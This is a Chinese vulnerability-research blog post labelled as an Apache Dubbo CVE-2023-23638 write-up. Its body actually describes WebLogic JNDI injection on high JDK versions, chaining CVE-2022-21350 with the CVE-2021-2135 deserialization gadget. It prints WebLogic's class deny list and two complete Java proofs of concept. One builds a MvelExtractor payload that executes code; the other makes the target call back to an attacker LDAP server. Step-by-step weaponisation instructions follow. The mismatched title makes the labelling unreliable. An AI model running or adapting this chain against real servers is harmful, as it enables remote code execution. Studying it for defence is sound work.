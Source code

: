 ```yaml
---
title: Apache Dubbo （CVE-2023-23638）完整利用及工程化实践
date: 2023-03-13 16:04:42
tags:
    - 漏洞分析
    - 安全技术
---
```


    本文首发于奇安信攻防社区:https://forum.butian.net/share/2163

Weblogic在2022年的补丁中，给一个JNDI注入的漏洞（CVE-2022-21350）CVSS评分定为6.5，根据漏洞发现者的描述，官方认为高版本的Weblogic中，提示了需要使用1.8.0\_191之上的JDK才足够安全，官方认为虽然可以JNDI注入，但是无法造成实际的影响。

![](img/weblogic_highJDK/image_JLvry36KsJ.png)

高版本的JDK禁止了直接利用RMI、LDAP等协议进行任意代码执行，同时使程序受JEP290保护，JDK中提供了一个setInternalObjectInputFilter，用户可以自行对这个filter进行定义。这个filter也是Weblogic把JNDI注入不当回事的底气。

但是经过研究，我发现了一种可以在高版本的JDK中进行Weblogic JNDI注入导致RCE的利用方法

## 高版本的限制

常规的高版本JDK JNDI注入，包含两种方法：

-   利用Tomcat的`BeanFactory`进行恶意类加载
-   利用LDAP的javaSerializedData属性进行反序列化

在Weblogic中不包含Tomcat相关依赖，因此我们重点关注第二种方法。Weblogic中存在众多的反序列化链，并且大多数链的修复方法都是将其加入黑名单

此处进行测试，随便使用一种反序列化链，在LDAP反序列化中进行使用，会发现反序列化失败，同时weblogic的日志中出现如下记录。可以看到是在ObjectInputFilter中对java.rmi.server.RemoteObjectInvocationHandler关键类进行了拒绝。

![](img/weblogic_highJDK/企业微信截图_16849072435848_O9feGCb6J4.png)

这是JDK的反序列化机制，用户可以自行定义类实现ObjectInputFilter接口，从而在反序列化的过程中建立一个白名单。 下图是从JNDI注入到程序进行反序列化类检查过程的调用链

![](img/weblogic_highJDK/image_LHoaa0Yc98.png)

其中在ObjectInputStream.filterCheck函数中进行了用户自定义InputFIilter类的调用。最终的检查是一个list逐个进行匹配。

![]reblogic_highJDK/image_ljL-hBOKcn.png)

黑名单的类如下：

```http
!org.codehaus.groovy.runtime.ConvertedClosure;!org.codehaus.groovy.runtime.ConversionHandler;!org.codehaus.groovy.runtime.MethodClosure;!org.springframework.transaction.support.AbstractPlatformTransactionManager;!java.rmi.server.UnicastRemoteObject;!java.rmi.server.RemoteObjectInvocationHandler;!com.bea.core.repackaged.springframework.transaction.support.AbstractPlatformTransactionManager;!java.rmi.server.RemoteObject;!com.tangosol.coherence.rest.util.extractor.MvelExtractor;!java.lang.Runtime;!oracle.eclipselink.coherence.integrated.internal.cache.LockVersionExtractor;!org.eclipse.persistence.internal.descriptors.MethodAttributeAccessor;!org.eclipse.persistence.internal.descriptors.InstanceVariableAttributeAccessor;!oracle.jdbc.pool.OraclePooledConnection;!org.apache.commons.collections.functors.*;!com.sun.org.apache.xalan.internal.xsltc.trax.*;!javassist.*;!java.rmi.activation.*;!sun.rmi.server.*;!org.jboss.interceptor.builder.*;!org.jboss.interceptor.reader.*;!org.jboss.interceptor.proxy.*;!org.jboss.interceptor.spi.metadata.*;!org.jboss.interceptor.spi.model.*;!com.bea.core.repackaged.springframework.aop.aspectj.*;!com.bea.core.repackaged.springframework.aop.aspectj.annotation.*;!com.bea.core.repackaged.springframework.aop.aspectj.autoproxy.*;!com.bea.core.repackaged.springframework.beans.factory.support.*;!org.python.core.*;!com.bea.core.repackaged.aspectj.weaver.tools.cache.*;!com.bea.core.repackaged.aspectj.weaver.tools.*;!com.bea.core.repackaged.aspectj.weaver.reflect.*;!com.bea.core.repackaged.aspectj.weaver.*;!com.oracle.wls.shaded.org.apache.xalan.xsltc.trax.*;!oracle.eclipselink.coherence.integrated.internal.querying.*;!oracle.eclipselink.coherence.integrated.internal.cache.*
```

## 寻找可用链

用这份黑名单类和WebLogicFilterConfig中的封禁类做对比，发现如下两个变量里的类并没有被加如这个黑名单。

```java
private static final String[] DEFAULT_WLS_ONLY_BLACKLIST_CLASSES = new String[]{"com.tangosol.util.extractor.ReflectionExtractor", "com.tangosol.util.extractor.ComparisonValueExtractor", "com.tangosol.util.extractor.ConditionalExtractor", "com.tangosol.util.extractor.ReflectionUpdater", "com.tangosol.util.extractor.ScriptValueExtractor", "com.tangosol.util.extractor.UniversalExtractor", "com.tangosol.util.extractor.UniversalUpdater", "com.tangosol.internal.util.SimpleBinaryEntry", "com.tangosol.coherence.component.util.daemon.queueProcessor.service.grid.partitionedService.PartitionedCache$Storage$BinaryEntry"};

private static final String[] DEFAULT_WLS_ONLY_BLACKLIST_PACKAGES = new String[]{"com.tangosol.internal.util.invoke", "com.tangosol.internal.util.invoke.lambda", "com.tangosol.coherence.rest.util.extractor", "com.tangosol.coherence.rest.util", "com.tangosol.coherence.component.application.console"};

```

&#x20;&#x20;

其中com.tangosol.util.extractor.ReflectionExtractor、com.tangosol.util.extractor.ComparisonValueExtractor在之前的CVE-2020-2883出现过，但是ReflectionExtractor中存在补丁

![](img/weblogic_highJDK/image_2VqwQ73ZkF.png)

无法再利用该类进行利用。

com.tangosol.util.extractor.UniversalExtractor出现在CVE-2020-14645，但是这条链的sink点依然是JNDI注入，因此也不再考虑。

而com.tangosol.internal.util.SimpleBinaryEntry和com.tangosol.coherence.component.util.daemon.queueProcessor.service.grid.partitionedService.PartitionedCache\$Storage\$BinaryEntry ，被分别使用在了CVE-2021-2135和CVE-2021-35617。这两条链都属于二次反序列化，最终的sink点都是使用MvelExtractor直接执行java代码，因此理论上是可以使用的。但是在实际的测试中我才发现，CVE-2021-35617的补丁点不单单是加入黑名单，同时是直接去除了一个重要类的serialize继承接口，导致整条无法使用。因此最后确定的可使用链就为CVE-2021-2135。

经过实际的测试，的确可以在JDK1.8u191及以上的版本中实现RCE

![](img/weblogic_highJDK/企业微信截图_16849071732250_7RsoFMuf0e.png)

## 漏洞复现

1.  使用如下代码，序列化CVE-2021-2135的POC。其中POC为发起一个URL请求，请求地址为http\://TARGET\_IP/1234567
    ```java
    public static Object getObject(String command) throws Exception {

        String cmd="new java.net.URL(\""+command+"\").openStream();";
        MvelExtractor mvelExtractor =new MvelExtractor();
        Reflections.setFieldValue(mvelExtractor,"m_sExpr",cmd);

        TopNAggregator.PartialResult partialResult =new TopNAggregator.PartialResult();

        Reflections.setFieldValue(partialResult,"m_comparator",mvelExtractor);
        Reflections.setFieldValue(partialResult,"m_cMaxSize",5);
        partialResult.add("123");

        ByteArrayWriteBuffer bufferOutput =new ByteArrayWriteBuffer(new byte[4096]);
        WriteBuffer.BufferOutput b =  bufferOutput.getBufferOutput();
        b.write((byte)10);
        ExternalizableHelper.writeExternalizableLite(b,partialResult);

        b.flush();
        DefaultSerializer defaultSerializer = new DefaultSerializer();
        Binary binary =new Binary(bufferOutput.toByteArray());
        SimpleBinaryEntry simpleBinaryEntry =new SimpleBinaryEntry();
        Reflections.setFieldValue(simpleBinaryEntry,"m_binKey",binary);
        Reflections.setFieldValue(simpleBinaryEntry,"m_serializer",defaultSerializer);
        XString xString =new XString("");
        InflatableMap inflatableMap =new InflatableMap();
        inflatableMap.put(simpleBinaryEntry,"456");
        inflatableMap.put("test","4657");
        Object o =  ((Object[]) Reflections.getFieldValue(inflatableMap,"m_oContents"))[1];
        Reflections.setFieldValue(o,"key",xString);
        ConditionalPutAll conditionalPutAll =new ConditionalPutAll();

        Reflections.setFieldValue(conditionalPutAll,"m_map",inflatableMap);
        AttributeHolder attributeHolder =new AttributeHolder();
        Reflections.setFieldValue(attributeHolder,"m_oValue",conditionalPutAll);

        return  attributeHolder;

    }

    public static void main(String[] args) throws Exception{
        ExternalizableHelper.setObjectStreamFactory(new WLSObjectStreamFactory());
        byte[] ser =Serializer.serialize(getObject("http://TARGET_IP/1234567"));
        System.out.println(Base64.encodeBase64String(ser));
    }
    ```
2.  将生成的base64字符串复制到[https://github.com/kxcode/JNDI-Exploit-Bypass-Demo](https://github.com/kxcode/JNDI-Exploit-Bypass-Demo "https://github.com/kxcode/JNDI-Exploit-Bypass-Demo")项目的HackerLDAPRefServer类的sendResult方法的e.addAttribute语句中

    ![](img/weblogic_highJDK/image_Qmgx6-CfsQ.png)
3.  然后使用maven编译这个项目，并放到测试机上。

    ![](img/weblogic_highJDK/企业微信截图_16849069976718__B8OONhANE.png)
4.  在攻击机上使用CVE-2022-21350的POC进行攻击。其中回连的JNDI地址为ldap\://TARGET\_IP/aer
    ```java
    public static Object getPrivateObject(String className) throws Exception{
        Field singleoneInstanceField = Unsafe.class.getDeclaredField("theUnsafe");
        singleoneInstanceField.setAccessible(true);
        Unsafe unsafe = (Unsafe)singleoneInstanceField.get(null);
        Class clzz = Class.forName(className);
        return unsafe.allocateInstance(clzz);
    }

    public static Object getOBject() throws Exception{

        BadAttributeValueExpException badAttributeValueExpException =new BadAttributeValueExpException(null);
        FileSessionData sessionData = (FileSessionData)getPrivateObject("weblogic.servlet.internal.session.FileSessionData");
        Reflections.setFieldValue(sessionData,"isValid",true);
        HashMap map = new HashMap();
        Properties props = new Properties();
        Name name = new CompoundName("ldap://TARGET_IP/aer",props);
        HomeHandleImpl homeHandle = new HomeHandleImpl();
        Reflections.setFieldValue(homeHandle,"jndiName",name);
        Reflections.setFieldValue(homeHandle,"serverURL","t3://127.0.0.1:7001");
        BusinessHandleImpl b =new BusinessHandleImpl();
        Reflections.setFieldValue(b,"homeHandle",homeHandle);
        AttributeWrapper attributeWrapper= new AttributeWrapper(b);
        map.put("wl_debug_session",attributeWrapper);
        Reflections.setFieldValue(attributeWrapper,"isEJBObjectWrapped",true);
        Reflections.setFieldValue(sessionData,"attributes",map);
        Reflections.setFieldValue(sessionData,"internalAttributes",new Hashtable<>());
        Reflections.setFieldValue(badAttributeValueExpException,"val",sessionData);
        return  badAttributeValueExpException;


    }
    public static void main(String[] args) {
        try {
            String ip = args[0];
            String port = args[1];
            String rhost = String.format("iiop://%s:%s", ip, port);
            Hashtable<String, String> e = new Hashtable<String, String>();
            e.put("java.naming.factory.initial", "weblogic.jndi.WLInitialContextFactory");
            e.put("java.naming.provider.url", rhost);
            Context context = new InitialContext(e);
            context.rebind("test", getOBject());
            
        } catch (Exception ex) {
            ex.printStackTrace();

        }
    }
    ```
5.  执行该POC后，在目标主机成功收到该请求

    ![](img/weblogic_highJDK/企业微信截图_16849068157595_35hv7KtUEC.png)

